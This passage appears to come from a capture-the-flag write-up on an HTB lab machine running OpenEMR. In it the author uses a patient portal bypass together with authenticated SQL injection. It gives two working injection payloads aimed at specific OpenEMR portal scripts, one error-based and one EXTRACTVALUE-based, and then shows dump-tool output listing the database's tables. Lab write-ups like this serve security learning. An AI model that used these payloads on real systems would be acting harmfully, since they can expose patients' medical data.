 Since the patient portal didnt seem to reveal any useful information, I moved on to the next section, SQL injection. The first example sounded interesting, because combined with the patient portal bypass, I could use the authenticated SQLi vulnerability.

![](/assets/img/17-duplicate-query.png)

```text
http://hms.htb/portal/find_appt_popup_user.php?catid=1' AND (SELECT 0 FROM(SELECT COUNT(*),CONCAT(@@VERSION,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- -
```

![](/assets/img/18-system-user%20%281%29.png)

```text
/portal/add_edit_event_user.php?eid=1 AND EXTRACTVALUE(0,CONCAT(0x5c,VERSION()))

```

system\_user\(\) gets openemr@localhost database\(\) gets openemr

using `sqldump` on database `openemr` gets crapton of tables...

```text
Database: openemr                                                                                      
[234 tables]
+---------------------------------------+
| array                                 |
| groups                                |
| sequences                             |
| version                               |
| addresses                             |
| amc_misc_data                         |
| amendments                            |
| amendments_history                    |
| ar_activity                           |
| ar_session                            |
| audit_details                         |
| audit_master                          |
| automatic_notification                |
| background_services                   |
| batchcom                              |
| billing                               |
| calendar_external                     |
| categories                            |
| categories_seq                        |
| categories_to_documents               |
| ccda                                  |
| ccda_components                       |
| ccda_field_mapping                    |
| ccda_sections                         |
| ccda_table_mapping                    |
| chart_tracker                         |
```